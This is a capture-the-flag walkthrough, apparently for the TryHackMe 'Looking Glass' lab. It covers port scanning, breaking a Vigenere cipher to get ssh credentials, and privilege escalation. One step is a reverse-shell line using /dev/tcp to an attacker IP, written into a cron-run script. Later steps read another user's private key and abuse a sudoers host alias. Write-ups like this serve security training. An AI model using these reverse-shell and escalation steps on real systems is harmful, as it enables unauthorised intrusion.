 # Looking Glass


`nmap -Pn 10.10.255.64` output is are open ports 22, 9000-13999
```sh
9000/tcp open  unknown
[...]
13999/tcp open  unknown
```

Some further scanning via `nmap -sC -sV -p 9000-13999 10.10.255.64` uncovers these are all dropbear-ssh servers
```sh
9000/tcp open  ssh        syn-ack Dropbear sshd (protocol 2.0)
[...]
13999/tcp open  ssh        syn-ack Dropbear sshd (protocol 2.0)
```

Establishing a connection via `ssh 10.10.255.64 -p 10000` yields
```sh
Unable to negotiate with 10.10.255.64 port 10000: no matching host key type found. Their offer: ssh-rsa
```
* Option `ssh 10.10.255.64 -p 10000 -oHostKeyAlgorithms=+ssh-rsa`
```
Lower
Connection to 10.10.255.64 closed.
```
![Alt text](../include/looking_glass/norsa.png?raw=true "ssh connection")

Checking the highest and lowest ports seems off. The given hints of higher/lower are inverted. 
![Alt text](../include/looking_glass/something_off.png?raw=true "something seems off")

Regardless of this fact, following the of `O(log n)` method of divide and conquer from inside the hint leads to success on port 12147
![Alt text](../include/looking_glass/success.png?raw=true "found it")

Visible is the `Jabberwocky` text but it is encoded. Having done one or two stego challenges before leads me to believe it is either some rotational subsitution cipher or it is a vignere cipher, on the first look. The key would be `Jabberwocky`, I guess. 

So, first let's search for the jabberwocky poem.
![Alt text](https://i.pinimg.com/736x/43/0b/45/430b4526079e14b088d82c8d1c75cbcc.jpg "jabberwocky poem")

After pasting the first paragraph into the good ol [dcode.fr](https://www.dcode.fr/vigenere-cipher) and put in the first line of the poem a plain text word , I get a rough outline of the key 
![Alt text](../include/looking_glass/key_outline.png?raw=true "rough key outline")

Fiddling with the key on [boxentriq](https://www.boxentriq.com/code-breaking/vigenere-cipher) yields the key, finally. The secret is inside the poem.
![Alt text](../include/looking_glass/cipher_key.png?raw=true "cipher key")

This returns the credentials for ssh connection
```sh
jabberwock:HappenedWaterExplainedArrived
```
![Alt text](../include/looking_glass/ssh_credentials.png?raw=true "ssh credentials")

Once logged in `user.txt` contains the key, but it has to be reversed.
![Alt text](../include/looking_glass/reverse_flag.png?raw=true "reversed flag")

Taking a look `twasBrillig.sh`. I can spread the word about Jabberwocky.
```sh
jabberwock@looking-glass:~$ cat twasBrillig.sh
wall $(cat /home/jabberwock/poem.txt)
jabberwock@looking-glass:~$ ls -l
total 12
-rw-rw-r-- 1 jabberwock jabberwock 935 Jun 30  2020 poem.txt
-rwxrwxr-x 1 jabberwock jabberwock  38 Jul  3  2020 twasBrillig.sh
-rw-r--r-- 1 jabberwock jabberwock  38 Jul  3  2020 user.txt
```

Checking `sudo -l`. Looks like a case for [gtfobins](https://gtfobins.github.io).
```sh
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```

Well, it doesn't. Let's do some further research.
```sh
jabberwock@looking-glass:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
[...]
tryhackme:x:1000:1000:TryHackMe:/home/tryhackme:/bin/bash
jabberwock:x:1001:1001:,,,:/home/jabberwock:/bin/bash
tweedledum:x:1002:1002:,,,:/home/tweedledum:/bin/bash
tweedledee:x:1003:1003:,,,:/home/tweedledee:/bin/bash
humptydumpty:x:1004:1004:,,,:/home/humptydumpty:/bin/bash
alice:x:1005:1005:Alice,,,:/home/alice:/bin/bash
```
```sh
jabberwock@looking-glass:~$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
jabberwock@looking-glass:~$ uname -a
Linux looking-glass 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

Here it is, on reboot tweedledum executes `twasBrillig.sh`
```sh
jabberwock@looking-glass:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

Lets prepare a reverse shell.
```sh
jabberwock@looking-glass:~$ echo "bash -i &> /dev/tcp/<attacker-IP>/4448 0>&1" > twasBrillig.sh
```

Prepare a reverse shell.
```sh
nc -lvnp 4448
```

Reboot and wait
```sh
sudo /sbin/reboot
```

After the shell established the connection, there are the following files inside `/home/tweedledum`
```sh
tweedledum@looking-glass:~$ ls -l
ls -l
total 12
-rw-rw-r-- 1 tweedledum tweedledum 148 Oct 15 20:18 1
-rw-r--r-- 1 root       root       520 Jul  3  2020 humptydumpty.txt
-rw-r--r-- 1 root       root       296 Jul  3  2020 poem.txt
tweedledum@looking-glass:~$ cat poe 
cat poem.txt 
     'Tweedledum and Tweedledee
      Agreed to have a battle;
     For Tweedledum said Tweedledee
      Had spoiled his nice new rattle.

     Just then flew down a monstrous crow,
      As black as a tar-barrel;
     Which frightened both the heroes so,
      They quite forgot their quarrel.'
tweedledum@looking-glass:~$ cat hump    
cat humptydumpty.txt 
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```
`humptydumpty.txt` looks like the text is in hex. Decode, and there is the password.
![Alt text](../include/looking_glass/humptydumpty_passwd.png?raw=true "humpty password")

The output is garbage for the most part, but I was able to see the password. For now I don't care about the other lines. Let's do a shell upgrade and switch users.
![Alt text](../include/looking_glass/humpty_user.png?raw=true "humpty user")


I solved the login for user alice in a few seconds. Always check file permissions! The home directory is executable, that means I can change directory, but I cannot invoke binaries to read inside like `/bin/ls`. The directory permissions do not prevent from reading files inside it, necessarily. What are defacto standard file names inside a home directory? There is `.bashrc` most of the time, `.profile` as well. Also, there is `.bash_history`. But, if you generate your ssh keys via `ssh-keygen` the default file name is `id_rsa` inside `~/.ssh`. 
![Alt text](../include/looking_glass/alice_key.png?raw=true "alice's key")

Establish another ssh connection via `ssh alice@10.10.42.140 -i alice`. There is another file called `kitten.txt`.
![Alt text](../include/looking_glass/alice_login.png?raw=true "login as alice")

I do not know the password of alice, but she is in the sudoers file
```sh
alice@looking-glass:~$ ll  /etc/sudoers.d
total 24
drwxr-xr-x  2 root root 4096 Jul  3  2020 ./
drwxr-xr-x 91 root root 4096 Oct 15 20:49 ../
-r--r-----  1 root root  958 Jan 18  2018 README
-r--r--r--  1 root root   49 Jul  3  2020 alice
-r--r-----  1 root root   57 Jul  3  2020 jabberwock
-r--r-----  1 root root  120 Jul  3  2020 tweedles
alice@looking-glass:~$ cat /etc/sudoers.d/alice
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```
The host alias `ssalg-gnikool` is a reversed `lookin-glass`. Just executing `sudo ssalg-gnikool` does not work. I took a look inside the options of sudo, there is an option to set the host by using `-h` has the parameter.
![Alt text](../include/looking_glass/hostname.png?raw=true "reversed hostname")

Let's switch to root and reverse the flag
![Alt text](../include/looking_glass/reverse_root_flag.png?raw=true "reversed root flag")

